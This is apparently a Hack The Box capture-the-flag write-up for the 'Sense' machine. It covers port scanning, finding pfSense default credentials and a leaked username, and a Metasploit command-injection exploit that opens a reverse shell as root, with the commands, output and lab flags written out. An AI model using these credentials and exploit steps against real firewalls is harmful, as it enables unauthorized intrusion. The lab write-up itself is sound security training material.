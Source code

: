 ```yaml
---

title: 🟢 HTB - Sense
author: Acivik
date: 2025-01-24 15:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Sense, walkthrough, easy, linux]

---
```


![https://i.ibb.co/KNWDvQB/Sense.png](https://i.ibb.co/KNWDvQB/Sense.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap detected 2 open TCP ports: 80 (HTTP) and 443 (HTTPS)

```bash
root@kali:~/HTB/sense# nmap -p- 10.10.10.60 --min-rate 10000 --open -sVC -oA nmapout
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-15 10:09 UTC
Nmap scan report for 10.10.10.60 (10.10.10.60)
Host is up (0.076s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.44 seconds
root@kali:~/HTB/sense#
```

port 80 redirects to HTTPS

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">WebSite</span>

There is a login page 

![https://i.ibb.co/pnjDTrc/Ekran-g-r-nt-s-2025-01-15-131247.png](https://i.ibb.co/pnjDTrc/Ekran-g-r-nt-s-2025-01-15-131247.png)

 default credentials for pfsense `admin:pfsense`

### <span style="color:#FFC300">Content Discovery</span>

![https://i.ibb.co/6DRnNPq/Ekran-g-r-nt-s-2025-01-15-163012.png](https://i.ibb.co/6DRnNPq/Ekran-g-r-nt-s-2025-01-15-163012.png)

We discovered many files.

There is a credential in this file `/system-users.txt`

```bash
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

`rohit:pfsense`

# <span style="color:#AA0E1C"><b># Foothold: Shell as root</b></span>

![https://i.ibb.co/k5BXNfK/Ekran-g-r-nt-s-2025-01-15-164153.png](https://i.ibb.co/k5BXNfK/Ekran-g-r-nt-s-2025-01-15-164153.png)

PfSense is a FreeBSD-based firewall distribution.

I’ll check vulnerabilities of pfsense

```bash
root@kali:~/walkthrough# searchsploit pfsense graph
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                                                                            | hardware/remote/35070.txt
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                                                                                    | php/remote/34985.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                                                                  | php/webapps/43560.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
(tools) root@kali:~/walkthrough#
```

I exploited it with Metasploit and gained a root shell.

```bash
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set LHOST tun0
LHOST => 10.10.14.23
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set RHOSTS 10.10.10.60
RHOSTS => 10.10.10.60
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run

[*] Started reverse TCP handler on 10.10.14.23:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (39927 bytes) to 10.10.10.60
[+] Deleted TQyFd
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.60:52304) at 2025-01-15 13:38:06 +0000

meterpreter > shell
Process 67808 created.
Channel 0 created.
id
uid=0(root) gid=0(wheel) groups=0(wheel)
cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
ls /home/	
.snap
rohit
cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b
```